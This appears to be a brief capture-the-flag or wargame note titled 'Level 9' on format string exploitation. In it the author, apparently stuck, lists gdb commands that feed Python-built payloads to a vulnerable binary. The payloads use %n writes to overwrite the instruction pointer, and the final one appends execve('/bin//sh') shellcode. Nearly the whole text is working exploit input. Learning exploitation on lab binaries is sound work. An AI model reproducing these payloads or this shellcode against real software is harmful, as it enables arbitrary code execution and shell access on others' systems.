 ##Level 9

Format string exploitation.
Stuck here. `sts_io_l9_format` was written so one can determine what to write at the target address.

```
b *0x80483e9
run $(python -c 'print("\xac\xfc\xff\xbf" + "\xae\xfc\xff\xbf" + "%16698c%4$n%65535c%5$n")') > eip = 0x41414142
run $(python -c 'print("\xac\xfc\xff\xbf" + "\xae\xfc\xff\xbf" + "%63654c%4$n%51025c%5$n"+"\xcc")') > eip = 0xbffff8ae

run $(python -c 'print("\x8c\xfc\xff\xbf" + "\x8e\xfc\xff\xbf" + "%63620c%4$n%51059c%5$n"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')

```
